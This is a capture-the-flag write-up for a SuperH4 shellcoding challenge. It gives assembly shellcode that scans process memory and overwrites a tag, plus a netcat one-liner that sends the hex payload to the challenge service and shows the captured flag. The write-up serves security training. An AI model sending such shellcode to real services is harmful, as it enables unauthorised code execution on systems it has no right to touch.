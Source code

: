 ## Infos

**Author**: grimmlin  
**Category**: Shellcoding  
**Difficulty**: Medium  

## Description:

So, I built this connected, self-driving car in my garage, but I used an existing motor engine to do it. The model tag is still present in memory but I really need it to be changed. Fortunately, I left this service open in order to apply small firmware patches, so send it a shellcode to find and change the tag present somewhere in memory running on superpollute.insomni.hack:24607 challenge files

    HINT1 : you might need this to develop your shellcode
    HINT2 : gdb inside qemu-system is broken on sh4. Use qemu-sh4 with -g and use a native gdb with multitarget support.


## Solution:

So, this challenge was in fact really easy. You just had to walk through the memory of a process, find a specific string and change it. With a shellcode. In SuperH4. In a broken dev environment.

No, seriously though, it was really easy. SuperH4 has a very limited instruction set, and what you need is a loop, with a technique to check if the adress is mapped or not.
For that I used a read syscall, which will just return an error if the adress is not mapped, and oethwise checks for the start of string and modify it if present.

This gives the following shellcode :

    .text
        .global _start

    _start:
        mov     #0x1,r1
        xor     r2,r2
        mov     #14,r4
        sub     r4,r2
        shll8   r1
        shll2   r1
        shll2   r1
        xor     r4,r4
    l00p:
        add     r1,r4
        mov     #5,r3
        mov     #3,r5
        trapa   #2
    test:
        cmp/eq  r2,r0
        bt      l00p
        nop
        mov.l   .check,r3
        mov     r4,r5
        mov.l   @r5,r5
        cmp/eq  r5,r3
        bf      l00p
        nop

    youwin:
        mov     #10,r1
        mov.l   r1,@r4
        nop

    .check:
        .long 0x1f600d60


Here is the final exploit :

    (python -c 'print "01e12a220ee448321841084108414a241c3405e303e502c32030f989090004d3436552655033f38b09000ae112240900600d601f".decode("hex")';cat) | nc 10.13.37.141 24607
    nc: using stream socket

    So, I built this connected, self-driving car in my garage, but I used an
    existing motor engine to do it. The brand and model tag is still present in
    memory but I really need it to be changed. Fortunately, I left this service
    open in order to apply small firmware patches, so send it a shellcode to
    find and change the tag present somewhere in memory

    ---reading firmware patch---

    received: 01e12a220ee448321841084108414a241c3405e303e502c32030f989090004d3436552655033f38b09000ae112240900600d601f0a0a
    ---patching firmware---
    Unhandled trap: 0x180

    GG, here's your flag: INS{thank_you_for_global_warming}


